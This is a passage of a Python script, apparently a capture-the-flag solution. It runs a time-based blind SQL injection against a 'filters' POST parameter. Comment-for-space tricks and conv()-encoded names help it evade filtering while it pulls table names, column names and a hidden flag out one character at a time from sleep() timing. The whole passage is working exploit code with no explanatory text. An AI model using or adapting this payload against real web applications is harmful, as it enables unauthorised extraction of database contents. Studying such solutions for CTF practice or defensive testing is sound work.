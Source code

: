 ```
        #print(str(i)+' '+chr(j))
        payload='1,(select/**/if((substring((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()),'+str(i)+',1)=unhex(hex('+str(j)+'))),NULL,sleep(1)));'
        res = r.post(url,cookies=cookie,data={'filters':payload})
        if(res.elapsed.total_seconds()<4.00):
            tablename = tablename+chr(j)
            break
print(tablename)

print('starting column length extraction: \r\n')
for i in range(10,25):
    #print('curr column length: '+str(i))
    payload='1,(select/**/if(((select/**/length(group_concat(column_name))/**/from/**/information_schema.columns/**/where/**/table_name=(concat(lower(conv(25,10,36)),lower(conv(27,10,36)),lower(conv(24,10,36)),lower(conv(13,10,36)),lower(conv(30,10,36)),lower(conv(12,10,36)),lower(conv(29,10,36)),lower(conv(28,10,36)))))='+str(i)+'),NULL,sleep(1)));'
    res = r.post(url,cookies=cookie,data={'filters':payload})
    if(res.elapsed.total_seconds()<4.00):
        collength = i
        print('Length of the columns concatenated: '+str(i))
        #print(res.text)
        break

print('starting column names extraction: ')
colname=''
for i in range(1,collength+1):
    for j in range(97,122):
        #print(str(i)+' '+chr(j))
        payload='1,(select/**/if(((substring((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name=(concat(lower(conv(25,10,36)),lower(conv(27,10,36)),lower(conv(24,10,36)),lower(conv(13,10,36)),lower(conv(30,10,36)),lower(conv(12,10,36)),lower(conv(29,10,36)),lower(conv(28,10,36))))),'+str(i)+',1))=unhex(hex('+str(j)+'))),NULL,sleep(1)))'
        res = r.post(url,cookies=cookie,data={'filters':payload})
        if(res.elapsed.total_seconds()<4.00):
            colname = colname+chr(j)
            break
print('concatenated column names: '+ colname)

print('Starting to extract flag length: ')
for i in range(30,50):
    #print('curr flag length: '+str(i))
    payload = '1,(select/**/if((length((select/**/name/**/from/**/products/**/where/**/exclusive=1))='+str(i)+'),NULL,sleep(1)));'
    res = r.post(url,cookies=cookie,data={'filters':payload})
    if(res.elapsed.total_seconds()<4.00):
        flaglength = i
        print('Length of the flag: '+str(i))
        #print(res.text)
        break
print('starting to extract flag: ')
flag=''
for i in range(1,36) :
    for j in range(48,126):
        #print(str(i)+' '+chr(j))
        payload='1,(select/**/if(((hex(substring((select/**/name/**/from/**/products/**/where/**/exclusive=1),'+str(i)+',1)))=hex('+str(j)+')),NULL,sleep(1)));'
        res = r.post(url,cookies=cookie,data={'filters':payload})
        if(res.elapsed.total_seconds()<4.00):
            flag = flag+chr(j)
            #print(flag)
            break
print('Flag: '+ flag)
```